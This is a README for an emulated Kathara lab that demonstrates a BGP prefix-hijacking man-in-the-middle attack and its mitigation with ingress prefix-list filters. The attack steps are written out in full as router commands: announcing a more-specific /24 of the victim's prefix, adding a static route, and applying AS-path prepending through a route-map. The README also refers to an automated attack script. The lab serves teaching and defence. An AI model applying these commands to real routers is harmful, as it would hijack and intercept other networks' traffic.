 # Virtualisation of Internet Insecurity Demonstration

The lab is designed to facilitate a MITM Attack using BGP Prefix Hijacking.

![Final Network Topology Design](https://user-images.githubusercontent.com/37820793/190728275-79b66976-c6a7-4d62-a493-51138625bbfa.png)

The network topology consists of nine autonomous systems ranging from ASN-1 to ASN-9 including the ATTACKER and VICTIM ASes. The VICTIM AS is ASN-2 and the ATTACKER AS is ASN-8. Each autonomous system consists of one router and one server and all the routers are configured to be bgp speakers. Scripts are launched on the servers to execute commands via SSH on the routers to automate the MITM attack or apply prefix filters to prevent the attack. TCP dump is also set up on the DUMP-SERVER of ASN-8 to analyse hijacked traffic intended for ASN-2 once the attack is launched.

Since commands will be executed on the routers via the servers, the device.startup files of each server are used to set up SSH connections between the servers and routers and also write the python programs required to launch the attack and set up the prefix filters on the servers.

The attacker AS (ASN-8) announces 200.7.0.0/24 which is a subnet of the prefix assigned to ASN-2. This announcement will cause the prefix 200.7.0.0/16 and 200.7.0.0/24 to overlap. When prefixes overlap, BGP uses the longest prefix match rule. Due to this rule, announcing 200.7.0.0/24 will cause all the ASes to learn this route thus discarding the route to 200.7.0.0/16 previously learnt from ASN- 2’s announcement. All the traffic intended for ASN-2 will be forwarded to ASN-8.

A reply path is constructed by declaring a route path to forward the traffic to the VICTIM AS. This ensures that the attack goes unnoticed and prevents the MOAS conflict problem that may cause loops leading network downtime. ASN-8 blinds part of the network to the attack, with the aim of establishing a viable path to the victim. This is achieved by manipulating the AS Path attribute using AS Path Prepending. ASN-8 does this by announcing 200.7.0.0/24 and prepending 5, 1 and 2 to the AS path. AS 5 will not accept a route announcement that has its own AS number 5 hence it will not learn the bogus route announced by ASN-8. All traffic intended for ASN-2 will be intercepted by ASN-8 and forwarded to ASN-2 via the viable path. The dumpserver.startup file creates a python script to launch the attack and construct the the reply path.

## Basic Requirements

1. Make sure the latest version of Docker is installed - https://docs.docker.com/get-docker/
2. Python3.8 - https://www.python.org/downloads/
3. Make sure the latest version of Kathara is installed - https://www.kathara.org/

### To run this project successfully, a custom docker image must be created for kathara. Paramiko is needed to establish the SSH connection and must be installed by creating the custom docker image and running the kathara lab with this image.

1. Pull the latest kathara/quagga image:

```
$ docker pull kathara/quagga
```

2. Create copy of existing kathara/quagga image called “custom-kathara-image”:

```
$ docker run -tid --name custom-kathara-image kathara/quagga
```

3. Bash prompt for the custom-kathara-image container to manually install packages needed for this lab:

```
$ docker exec -ti custom-kathara-image bash
```

```
$ apt update
```

4. Install paramiko python module needed to send the commands via ssh to the router in the lab:

```
$ apt-get install -y python3-paramiko
```

```
$ exit
```

5. Commit the changes that have been made to the custom-kathara- image

```
$ docker commit custom-kathara-image kathara/custom-kathara-image
```

6. Remove the running container “custom-kathara-image” since the packages have now been installed:

```
$ docker rm -f custom-kathara-image
```

7. List the docker images that have been created. "kathara/custom-kathara-image" should be listed:

```
$ docker image ls
```

# Running the lab

## Lauch the MITM attack

1. To run the lab with the custom kathara image go to the lab directory, open a terminal and type:

```
$ kathara lstart -o “image=kathara/custom-kathara-image”
```

2. To lauch the attack run the following commands:

```
$ kathara connect router8
```

```
$ conf t
```

```
$ router bgp 8
```

```
$ network 200.7.0.0/24
```

```
$ ip route 200.7.0.0 255.255.255.0 216.239.32.1
```

3. The following for the as path prepend and route map:

```
$ route-map to-router5 permit 10
```

```
$ match ip address 10
```

```
$ set as-path prepend 5 1 2
```

```
$ exit
```

```
$ router bgp 8
```

```
$ neighbor 216.239.32.1 route-map to-router5 out
```

```
$ exit
```

```
$ do clear ip bgp *
```

## Automate the Attack

1. Launch the attack with the python script on the dumpserver

```
$ kathara connect dumpserver
```

```
$ python3 launchAttack.py
```

## Prevent and recover from the attack

For this lab prefix lists will be used to prevent and recover from the MITM attack and the type of prefix list to be used is ingress filters. The assumption made here is that ASN-2 has registered 200.7.0.0/16 with the Internet Routing Registry body. This means that other ASes are aware of the legitimate prefix of ASN-2 and so they use this information to create prefix-lists to filter out bogus announcements. Prefix lists are created for each neighbour of the routers and are set to reject prefixes that are greater than or equal to /17.

1. In this example an ingress filter called partialInRouter8 is created for 202.43.176.1 which is a neighbour of router 9.

```
$ kathara connect router9
```

```
$ vtysh
```

```
$ conf t
```

```
$ router bgp 9
```

```
$ neighbor 202.43.176.1 prefix-list partialInRouter8 in
```

```
$ ip prefix-list partialInRouter8 deny 200.7.0.0/17 le 32
```

```
$ ip prefix-list partialInRouter8 permit any
```

```
$ router bgp 9
```

```
$ neighbor 180.20.20.5 prefix-list partialInRouter6 in
```

```
$ ip prefix-list partialInRouter6 deny 200.7.0.0/17 le 32
```

```
$ ip prefix-list partialInRouter6 permit any
```

```
$ do clear ip bgp *
```

```
$ exit
```

Python scripts to apply prefix lists are created on each of the dumpservers of the routers except the the attacker AS (AS-8).

## Run the lab with the python script developed - Make sure docker is up and running.

1. To install the python virtual environment package go to the lab directory and type:

```

$ python3 -m pip install virtualenv

```

2. To create a virtual environment type:

```

$ python3 -m venv venv

```

3. To activate the virtual environment type:

```

$ source venv/bin/activate.

```

4. To install packages required for project type:

```

$ python -m pip install -r requirements.txt

```

5. To start the python program type:

```

$ python graph.py

```

6. To view the tool in the browser, go to port 5050 on your localhost (eg. 127.0.0.1:5050)
7. Press play at the button left corner to render the canvas. (Depending on your screen resolution, you may have to zoom out to 90% to view the full topology).
8. First of all, click the startbutton to start the lab and display the network topology.
9. Afterwards, depending on what you want to test you can either click the Apply Route Filters, Display Route Path, Launch Attack or Stop the Lab.
